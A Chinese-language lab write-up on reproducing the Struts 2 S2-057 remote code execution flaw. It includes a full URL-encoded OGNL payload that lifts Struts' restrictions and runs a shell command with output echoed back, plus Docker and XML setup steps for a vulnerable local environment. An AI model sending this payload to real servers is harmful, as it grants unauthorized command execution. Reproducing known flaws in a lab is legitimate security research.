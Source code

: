 # S2-057本地测试与复现

## POC

测试发现结合S2-045构造的POC堪称完美，当然是根据各位大佬的poc自行测试构造的，适用于Struts 2.3.34，而Struts 2.5.16的poc还没测试成功，等大佬们的poc吧

```
$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe','/c',%23cmd%7D%3A%7B'/bin/bash','-c',%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())).(%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream(),%23ros)).(%23ros.flush())%7D
```

注意：/不能编码为%2f，这个坑了好久

## 漏洞环境

war包：

https://archive.apache.org/dist/struts/2.5.16/struts-2.5.16-all.zip

https://archive.apache.org/dist/struts/2.3.34/struts-2.3.34-all.zip 

其中的struts2-showcase.war，当然这里也提供了对应的war包

- windows

tomcat+war即可

修改对应的\WEB-INF\classes\struts-actionchaining.xml

原：

```
<struts>
	<package name="actionchaining" extends="struts-default" namespace="/actionchaining">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">actionChain2</result>		
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
</struts>
```

修改为：

```
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">
                <param name = "actionName">register2</param>
            </result>
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result type="postback">
                <param name = "actionName">register2</param>
            </result>
		</action>
	</package>
</struts>
```

访问：

http://localhost:8080/S2-057-2-5-16/${(111+111)}/actionChain1.action

http://localhost:8080/S2-057-2-3-34/${(111+111)}/actionChain1.action

跳转并计算表达式，漏洞环境搭建成功

- linux

使用p牛的vulhub，当然需要修改配置。

https://github.com/vulhub/vulhub/tree/master/struts2/s2-015

需要修改Dockerfile和拷贝相应war文件和xml文件

```
COPY S2-057-2-3-34.war /usr/local/tomcat/webapps/S2-057-2-3-34.war
COPY S2-057-2-5-16.war /usr/local/tomcat/webapps/S2-057-2-5-16.war
COPY vul.xml /usr/local/tomcat/webapps/struts-actionchaining.xml
```

启动：docker-compose up -d

然后需要进入docker

docker ps

docker exec -i -t [CONTAINER_ID] /bin/bash

docker内执行：

```
cd /usr/local/tomcat/webapps
cp vul.xml S2-057-2-3-34/WEB-INF/classes/struts-actionchaining.xml
#cp vul.xml S2-057-2-3-34/WEB-INF/src/java/struts-actionchaining.xml
cp vul.xml S2-057-2-5-16/WEB-INF/classes/struts-actionchaining.xml
#cp vul.xml S2-057-2-5-16/WEB-INF/src/java/struts-actionchaining.xml
cd /usr/local/tomcat/bin
./shutdown.sh
```

会自动退出docker，然后再次docker-compose up -d，不能docker-compose down，不然得重新进入docker配置

访问

http://IP:8080/S2-057-2-3-34/$%7B(111+111)%7D/actionChain1.action

http://IP:8080/S2-057-2-5-16/$%7B(111+111)%7D/actionChain1.action

跳转并计算表达式说明搭建成功

注意：

如果需要重新创建容器，需要先删除相应的镜像

docker images

docker rmi image_id


## 漏洞复现

1.Redirect action

http://HOST/S2-057-2-3-34/POC/actionChain1.action

验证在返回头Location里，回显在body里



2.Chain action

http://HOST/S2-057-2-3-34/POC/actionChain2.action

无回显，无跳转，命令执行成功，回显在body里



3.Postback action

http://HOST/S2-057-2-3-34/POC/actionChain3.action

验证和回显都在body，form的形式

## 参考

[S2-057 远程命令执行漏洞复现](https://mp.weixin.qq.com/s/H6bLuXS8qCVRh1mSgAkdXQ)

[S2-057技术分析](https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483698&idx=1&sn=1b79bb4bd7d5b1173043d0c5c8335320)

[【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

https://github.com/jas502n/St2-057

## TODO

1. Struts 2.5.16 poc
2. 通用检测脚本，发现有的脚本只检测了Redirect action的情况
